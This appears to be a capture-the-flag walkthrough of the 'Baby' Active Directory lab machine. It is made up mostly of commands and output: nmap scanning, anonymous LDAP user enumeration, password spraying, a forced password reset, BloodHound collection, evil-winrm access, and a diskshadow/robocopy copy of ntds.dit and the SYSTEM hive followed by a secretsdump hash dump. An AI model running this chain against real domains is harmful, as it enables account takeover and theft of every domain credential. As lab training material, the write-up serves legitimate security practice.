


## Scanning

```bash
➜  Baby nmap -Pn -T4 -sC -sV -p- 10.10.116.106 -oN reports/all_tcp.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 03:14 EAT
Nmap scan report for 10.10.116.106 (10.10.116.106)
Host is up (0.19s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-13 00:24:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-04-13T00:25:46+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2025-04-11T23:48:27
|_Not valid after:  2025-10-11T23:48:27
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   DNS_Tree_Name: baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-13T00:25:06+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
60933/tcp open  msrpc         Microsoft Windows RPC
60948/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-13T00:25:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 670.17 seconds

```

## Enumeration

### LDAP

**Anonymous Access**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl"
```

**Users**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "sAMAccountName:" | cut -d' ' -f2 | tee loots/users.txt
```


Descriptions

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "description:"
```


### SMB

```bash
nxc smb 10.10.116.106 -u loots/users.txt -p 'BabyStart123!' --continue-on-success
```


Password Change

```bash
smbpasswd -r 10.10.116.106 -U Caroline.Robinson
```


```bash
nxc smb 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!' --users
```


### Bloodhound

```bash
bloodhound-python -d baby.vl  -c all -u 'Caroline.Robinson' -p 'NewSecurePass123!'  -ns 10.10.116.106 --zip
```


First Degree Group Membership


## Initial Access

```bash
nxc winrm 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```


```bash
evil-winrm -i 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```


## PrivEsc


vss.dsh

```bash
set context persistent nowriters
set metadata c:\programdata\cyb4x.cab
set verbose on
add volume c: alias cyb4x
create
expose %cyb4x% z:
```


```bash
diskshadow /s vss.dsh
```


Copying

```bash
robocopy /b z:\windows\ntds . ntds.dit
```


also

```bash
reg.exe save hklm\system system
```

download


Dump secrets

```bash
secretsdump.py -system system -ntds ntds.dit local
```

